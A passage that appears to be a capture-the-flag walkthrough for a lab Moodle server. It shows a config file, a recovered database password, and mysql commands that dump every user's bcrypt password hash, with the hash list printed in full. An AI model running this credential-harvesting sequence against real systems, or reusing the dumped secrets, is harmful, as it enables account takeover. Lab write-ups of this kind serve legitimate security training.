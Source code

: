 ```php

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

>[!important]
>moodle     PlaybookMaster2020

MySQL enumeration:

```bash
$ /usr/local/bin/mysql -u moodle --password='PlaybookMaster2020' -D moodle -e 'show tables;'
...
mdl_user
...
$ /usr/local/bin/mysql -u moodle --password='PlaybookMaster2020' -D moodle -e 'select username,password from mdl_user;'
mysql: [Warning] Using a password on the command line interface can be insecure.
username        password
guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89   $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89 $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_ellzabeth89       $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89   $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89    $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89  $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
singh_rakesh89  $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89  $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89   $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89    $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89    $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
travis_carl89   $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89       $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89   $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan    $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89 $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89    $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89 $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89 $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89        $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
parker_dan89    $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
parker_tim89    $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
maoutis $2y$10$6lWwoum2tXK0U8AwZRUTjeiP0qjC/QqI9jASlLeI3EzSxtHzw47Re
tezter  $2y$10$ZQTwEHnNyxXYCPmlYZDEBeGOYLlb1kkVmgmtk2LjZarpkRNfNElTW
teztert $2y$10$JfKZmLPnL.xsFR5CR1wjverL829rCxyFltSNhaYrDaF7poG5nN1na
```
